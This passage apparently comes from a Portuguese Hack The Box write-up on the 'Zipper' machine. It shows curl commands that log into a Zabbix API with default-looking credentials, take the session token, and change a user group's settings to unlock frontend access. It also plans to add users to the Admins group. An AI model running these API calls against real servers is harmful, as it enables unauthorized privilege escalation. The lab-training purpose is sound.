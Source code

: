 Podemos fazer diversas coisas, lendo a documentação da API (sempre é bom ler documentação, é boa prática)

--> Habilitar GUI para zapper

--> Adicionar um usuário "visitante" ao grupo dos Admins

--> Criar um novo usuário de Admin

## Habilitando GUI para Zapper

Bom, a primeira coisa que vamos fazer é habilitar a GUI para o usuário Zapper

Com a chamada `usergroup.net` posso verificar quais grupos que o usuário zapper possui

(https://www.zabbix.com/documentation/3.0/manual/api/reference/usergroup/get)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_gui.png)

Primeiro, devemos logar na API

`curl http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"user.login", "id":1, "auth":null, "params":{"user": "zapper", "password": "zapper"}}'`

`{"jsonrpc":"2.0","result":"9a0b26fc2cb0b22221d40ef13b486734","id":1}`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_gui1.png)

Então fazemos a requisição pra verificar quais grupos que o zipper está

`curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.get", "id":1, "auth":"9a0b26fc2cb0b22221d40ef13b486734", "params":{"userids": "3"}}' | jq '.'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_gui2.png)

Podemos verificar que o *Frontend* está desabilitado para esse usuário, ali no `gui_access:2`, então vamos alterar isso

`curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.update", "id":1, "auth":"9a0b26fc2cb0b22221d40ef13b486734", "params":{"usrgrpid": "12", "gui_access": "0"}}' | jq -c '.'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_gui3.png)

Agora verificamos novamente e vemos que foi alterado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_gui4.png)

## Acessando GUI Zapper

Agora entramos no painel de usuário do zapper

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-zipper/Z_gui6.png)
